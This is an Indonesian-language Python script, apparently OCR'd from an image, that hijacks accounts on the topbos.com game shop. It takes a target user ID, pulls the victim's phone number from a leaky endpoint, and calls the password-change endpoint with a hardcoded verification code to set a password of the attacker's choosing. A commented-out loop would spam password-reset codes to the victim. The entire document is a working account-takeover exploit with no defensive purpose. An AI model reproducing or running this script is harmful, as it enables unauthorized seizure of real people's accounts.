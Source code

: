 import requests,time,os,sys,json


def slowprint(kata):
	for k in kata+'\n':
		sys.stdout.write(k)
		sys.stdout.flush()
		time.sleep(.9/10)

if __name__ == '__main__':
	os.system('clear')
	userid = input("Masukkan ID Target: ")
	response = requests.get('https://topbos.com/shop/getUserInfo.do?userId='+userid)
	log = response.json()
	nama = requests.get('https://www.topbos.com/web/infullRequest.do?userId='+userid+'&costKey=com.neptune.domino.coincard0035&infullType=4&version=1.63')
	nick = nama.json()
	slowprint('Proses Login Ke Akun '+str(nick['message']['nickName']))
	if log['message'][5:7] == '08':
		nomor = log['message'][5:]
		slowprint('Login Berhasil')
		print(nomor)
		newpas = input('Masukkan Password Baru: ')
		response2 = requests.get('https://topbos.com/shop/changePwdIndex.do?userId='+userid+'&bindPhone='+nomor+'&code=3247&secondPwd='+newpas+'&sendCodeFlag=0')
		log2 = response2.json()
		if log2['code'] == '0':
			#for i in range(0,3):
				#response3 = requests.get('https://topbos.com/shop/sendPwdCodeIndex.do?userId='+userid+'&bindPhone='+nomor)
				#slowprint('Proses Spam Ke : '+str(i))
			slowprint('Password Berhasil Di Ganti')
		else:
			slowprint(log2['message'])
	else:
		slowprint(log['message'])
